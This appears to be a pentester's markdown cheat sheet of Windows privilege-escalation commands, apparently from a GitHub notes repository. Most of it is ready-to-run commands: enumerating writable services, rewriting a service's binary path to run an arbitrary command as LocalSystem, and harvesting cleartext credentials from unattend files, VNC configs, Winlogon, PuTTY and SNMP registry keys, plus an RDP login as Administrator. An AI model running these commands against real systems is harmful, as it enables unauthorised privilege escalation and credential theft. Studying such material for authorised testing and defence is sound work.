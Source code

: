# OS

Lots of time can be saved by running winPeas or a different script but below is how you can check stuff manualy and lots of stuff not done by the scripts

SAMBA? look under `445-smb` in the `Enumeration/port_enumeration` folder

Watson - https://github.com/rasta-mouse/Watson
WinPeas - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS


## Files
read/print a file `type <file>`
check permissions on a file `icacls <file>`


## Processes

## scheduled tasks
`schtasks` to check, also the `ps` command in Powershell might work

## LDAP - Perform Windows domain enumeration via LDAP
https://github.com/ZeroPointSecurity/Domain-Enumeration-Tool


## Writable Service Executables
```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt
```
If wmic is not available:
```
sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
Then use either accesschk.exe, cacls, or icacls to list the access permissions associated with each service executable:
```
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c accesschk.exe /accepteula -qv "%a" >> accesschk.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c cacls "%a" >> cacls.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c icacls "%a" >> icacls.txt
```
With accesschk results, look for the following permissions:

Permission	Use Case
SERVICE_ALL_ACCESS	Can do anything.
SERVICE_CHANGE_CONFIG	Can reconfigure the service binary.
WRITE DAC	Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG.
WRITE_OWNER	Can become owner, reconfigure permissions.
GENERIC_WRITE	Inherits SERVICE_CHANGE_CONFIG
GENERIC_ALL	Inherits SERVICE_CHANGE_CONFIG
With cacls and icacls, look for (F)ull Access, (M)odify access, (W)rite-only access, (WDAC) write DAC, or (WO) write owner.

## Writable Service Objects(priv esclatation)
Use accesschk.exe to find writable service objects:
```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
```
sc qc <service>
```
Update the service binary path:
```
sc config <service> binpath= "<command>"
```
Update the name of the account which a service runs as:
```
sc config upnphost obj= ".\LocalSystem" password= ""
```
Stop / Start a service:
```
wmic service <service> call stopservice
wmic service <service> call startservice

net stop <service>
net start <service>

sc stop <service>
sc start <service>
```
If the service fails to start because of a dependency, you can start the dependency manually, or remove the dependency:
```
sc config <service> depend= ""
```
All-in-one comnand:
```
sc config <service> binPath= "<command>" depend= "" start= demand obj= ".\LocalSystem" password= ""
```
## Cleartext Passwords
```
findstr /si password *.txt *.xml *.ini
```
```
dir /s *pass* == *cred* == *vnc* == *.config*
```
```
findstr /spin "password" *.*
```

Common files which contain passwords:
```
type c:\sysprep.inf
type c:\sysprep\sysprep.xml
type c:\unattend.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```
Search for passwords in the registry:
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```

# RDP
use xfreerdp!
```
sudo xfreerdp /v:10.129.56.77 /cert:ignore /u:Administrator
```
